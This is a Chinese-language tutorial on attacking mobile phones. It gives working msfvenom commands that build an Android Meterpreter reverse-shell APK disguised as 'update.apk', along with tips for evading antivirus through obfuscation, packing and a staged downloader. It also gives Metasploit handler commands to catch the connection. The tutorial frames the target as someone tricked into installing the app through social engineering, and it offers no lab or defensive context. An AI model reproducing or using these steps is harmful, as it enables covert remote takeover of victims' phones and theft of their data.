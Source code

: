 针对手机的攻击主要有以下几种入口：

1.  **恶意应用 (Malicious Application)**： 诱骗目标安装含有恶意负载的 APK (Android) 或 IPA (iOS)。
2.  **网络攻击 (Network Attack)**： 当目标连接到您控制的恶意 Wi-Fi 热点时，发起的中间人攻击。
3.  **浏览器攻击 (Browser Exploit)**： 诱骗目标访问一个包含浏览器漏洞的恶意网站。
4.  **物理访问 (Physical Access)**： 在短暂接触设备时，通过 USB 或其他方式植入负载。

我们将重点介绍前两种最常用且"高级"的玩法。

---

### **玩法一：生成恶意应用 (APK) - 社会工程学**

这是最常见、最有效的手机攻击方式。核心工具是 `msfvenom`。

**步骤 1：生成 Android 后门 APK**

```bash
# 在 Kali Linux 终端中，非 msfconsole 内
msfvenom -p android/meterpreter/reverse_tcp LHOST=<你的IP> LPORT=<监听端口> R > payload.apk

# 示例
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.104 LPORT=4444 R > update.apk
```
*   `-p android/meterpreter/reverse_tcp`： 指定使用 Android 的 Meterpreter 反向 TCP 负载。
*   `LHOST`： 你的 Kali 机器的 IP 地址（公网 IP 如果目标在外部网络）。
*   `LPORT`： 你准备监听的端口。
*   `R > payload.apk`： 输出为 APK 文件。这里命名为 `update.apk` 更具欺骗性。

**步骤 2：对 APK 进行免杀处理 (高级技巧)**

默认生成的 APK 很容易被手机安全软件检测到。你需要进行"加壳"或"混淆"。
*   **使用工具**： `ApkEasyTool`, `Jadx` 进行反编译后代码混淆，再重新签名。
*   **在线平台**： 使用一些在线的 APK 加壳平台（注意风险，你的后门可能会被平台收录）。
*   **使用分离负载**： 让初始 APK 很小，只负责下载和执行真正的负载，从而绕过静态检测。

**步骤 3：设置监听器**

在 Metasploit 中启动一个处理器，等待目标运行你的 APK。
```bash
# 启动 msfconsole
msfconsole

# 使用多功能处理器模块
use exploit/multi/handler

# 设置Payload，必须和生成APK时使用的Payload完全一致
set PAYLOAD android/meterpreter/reverse_tcp

# 设置参数
set LHOST 192.168.1.104
set LPORT 4444

# 开始监听
exploit -j
# `-j` 选项表示作为后台任务运行，这样你可以在前台执行其他命令。
```

